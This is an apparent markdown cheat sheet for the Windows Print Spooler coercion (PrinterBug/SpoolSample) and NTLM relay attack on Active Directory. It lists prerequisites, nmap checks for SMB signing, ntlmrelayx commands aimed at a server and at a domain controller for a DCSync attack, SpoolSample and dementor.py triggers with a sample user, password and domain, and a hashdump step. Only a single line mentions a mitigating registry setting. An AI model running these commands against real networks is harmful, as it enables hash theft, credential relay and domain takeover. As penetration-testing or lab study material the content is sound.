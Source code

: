 ## Requirements:

### 1) Machine account administrative privileges

### 2) Valid set of AD account credentials

### 3) Network connectivity to the target's SMB service

### 4) The target host must be running print spooler service

### 5) The hosts must not have SMB signing enforced

## Commands:

#### 1) GWMI Win32_Printer -Computer COMPUTER_NAME 

#### OR: Get-PrinterPort -ComputerName COMPUTER_NAME

## SMB Signing verification

#### nmap --script=smb2-security-mode -p 445 DOMAIN DOMAIN2

### If SMB is not enforced, then it is exploitable.

#### 1) python3 Impacket-ntlmrelayx.py -smb2support -t smb://SERVER_IP -debug (Set up NTLM Relay)

#### 2) On a compromised machine: SpoolSample.exe SERVER DOMAIN "ATTACK_IP"

#### 3) Perform a hashdump if no command is specified (SpoolSample Exploit)

## THIS ATTACK CAN BE UNSTABLE SO USE IT WITH CAUTION!

# Print Spooler & NTLM Relaying

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support`   | Used to forward any connections to DC2 and attempt to perform DCsync attack |
| `python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123` | Used to trigger the PrinterBug |
| `RegisterSpoolerRemoteRpcEndPoint`                           | Registry key that can be disabled to prevent the PrinterBug |

